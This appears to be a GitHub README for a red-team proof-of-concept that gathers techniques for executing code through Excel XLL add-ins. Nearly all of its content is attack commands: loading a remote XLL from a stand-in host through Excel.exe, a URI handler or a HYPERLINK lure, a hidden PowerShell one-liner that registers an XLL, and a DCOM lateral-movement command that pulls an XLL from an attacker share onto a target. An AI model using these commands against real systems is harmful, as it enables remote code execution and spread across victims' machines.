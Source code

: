 # xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH. 

### Credit   
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- @SubTee: 
- @buffaloverflow: https://twitter.com/buffaloverflow/status/888427071327916032

### Getting Exec
Put your code in either,
```
dllmain.cpp
PROCESS_ATTACH

XLL_POC.cpp
xlAutoOpen()
```
#### Some various execution techniques 
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyones favourite oneliner 
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet (xll cant be found)
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```
#### Lateral movement from @buffaloverflow
```
PS>[activator]::CreateInstance([type]::GetTypeFromCLSID("{CLSID}, tgt")).RegisterXLL("\\attacker\xll.xll")
```


